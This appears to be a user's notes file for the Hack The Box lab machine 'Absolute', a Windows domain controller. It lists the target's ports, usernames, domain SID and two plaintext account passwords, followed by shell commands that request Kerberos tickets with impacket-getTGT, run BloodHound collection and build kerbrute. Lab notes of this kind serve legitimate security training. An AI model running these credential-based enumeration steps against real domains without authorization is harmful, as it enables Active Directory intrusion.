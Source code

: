 # Absolute Notes

## Data 

IP: 10.129.147.44
OS: Windows 10.0 Build 17763 x64
Hostname: absolute
Domain:  dc.absolute.htb, absolute.htb
Domain SID: S-1-5-21-4078382237-1492182817-2568127209
Machine Purpose: Domain Controller
Services:53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49668,49673,49692,49693,49699,49704,49714,49718
Service Languages:
Users: m.chaffrey,j.roberts,s.osvald,j.robinson,d.klay,n.smith
Credentials:

```
d.klay : Darkmoonsky248girl
```

## Objectives

## Target Map

## Solution Inventory Map


### Todo 


### Done

```
d.klay@ABSOLUTE.HTB : Darkmoonsky248girl

SVC_SMB@ABSOLUTE.HTB : AbsoluteSMBService123!
```
      
```bash
sed -i 's/10.129.229.59/10.129.229.59/g' Absolute-*.md

sudo sed -i 's/10.129.229.59/10.129.229.59/g' /etc/hosts

echo "10.129.229.59 dc.absolute.htb absolute.htb" | sudo tee -a /etc/hosts
sudo ntpdate -s dc.absolute.htb
impacket-getTGT -dc-ip 10.129.229.59 absolute.htb/d.klay:Darkmoonsky248girl
impacket-getTGT -dc-ip 10.129.229.59 absolute.htb/SVC_SMB:AbsoluteSMBService123!
# /opt/BloodHound.py/bloodhound.py
# bloodhound-python
# Beware docker container need to be sync to DC!

KRB5CCNAME=d.klay.ccache $bloodhoundPythonInstallMethod -k -dc dc.absolute.htb -ns 10.129.229.59 -c all -d absolute.htb -u d.klay -p 'Darkmoonsky248girl' --zip
```

VM requires
```bash
cd /opt/
sudo git clone https://github.com/ropnop/kerbrute.git
wait
cd kerbrute/
sudo go build
wait
cd /opt/
echo "\n# Kerbrute Alias" | tee -a ~/.zshrc
echo "alias kerbrute='/opt/kerbrute/kerbrute" | tee -a ~/.zshrc

source ~/.zshrc
```